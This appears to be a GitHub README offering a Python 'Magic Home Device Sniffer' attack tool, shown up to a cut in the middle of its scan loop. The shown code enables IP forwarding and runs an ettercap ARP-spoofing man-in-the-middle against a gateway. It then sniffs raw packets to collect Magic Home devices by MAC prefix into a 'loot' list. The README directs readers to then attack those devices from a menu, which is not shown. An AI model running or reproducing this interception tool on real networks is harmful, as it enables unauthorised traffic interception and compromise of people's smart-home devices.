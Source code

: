 #### Magic Home Device Sniffer

- Requirements:
  - ettercap
  - Valid User Credentials
- Intention is to run this script aginst a network segment you are interested in finding susceptible devices on. 
- Once found run an attack using the attack menu within the script.

```
#!/usr/bin/env python3

import socket
import struct
import platform
import os
import sys
import requests
import json
from colorama import init
from colorama import Fore, Back, Style
import re
import time, subprocess

loot = []
global choice
choice = ''
global outtahere
outtahere = ""
q = "q"
global macAddress

def scan():
    with open('sniffedDevices.txt', 'a+') as f:
        os.system('clear')
        print (Fore.GREEN + "+=====================================+"+ Style.RESET_ALL )
        print (Fore.GREEN + "| Author: Victor Hanna (@9lyph)       |"+ Style.RESET_ALL )
        print (Fore.GREEN + "| Description: Magic Home Pro Sniffer |"+ Style.RESET_ALL )
        print (Fore.GREEN + "| (CTRL^C to Quit)                    |"+ Style.RESET_ALL )
        print (Fore.GREEN + "+=====================================+"+ Style.RESET_ALL )
        print (Fore.WHITE + '[+] Configuring IP Forwarding'+ Style.RESET_ALL )
        time.sleep(5)
        print (Fore.WHITE + '[+] Setting up MiTM'+ Style.RESET_ALL )
        time.sleep(2)
        ipForward = subprocess.Popen('sudo echo 1 > /proc/sys/net/ipv4/ip_forward', shell=True)
        time.sleep(2)
        ettercap = subprocess.Popen('sudo ettercap -T -q -i eth0 -M arp /<!--Update with valid gateway address-->// > /dev/null &', shell=True)
        time.sleep(2)
        print (Fore.WHITE + '[+] Searching for Magic Home Device(s)'+ Style.RESET_ALL )
        itsthere = []
        while (True):
            conn = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0003))
            try:
                raw_data, addr = conn.recvfrom(65535)
                dst_mac, src_mac, proto, data = ethernet_frame(raw_data)
                if 'FF:FF:FF:FF:FF:FF' in dst_mac: # Suppress Broadcast traffic
                    pass
                elif 'c8:2e:47'.upper() in src_mac:
                    if src_mac in loot:
                        pass
                    else:
                        print (Fore.WHITE + '[+] Device ' + src_mac + ' added to loot !'+ Style.RESET_ALL)
```
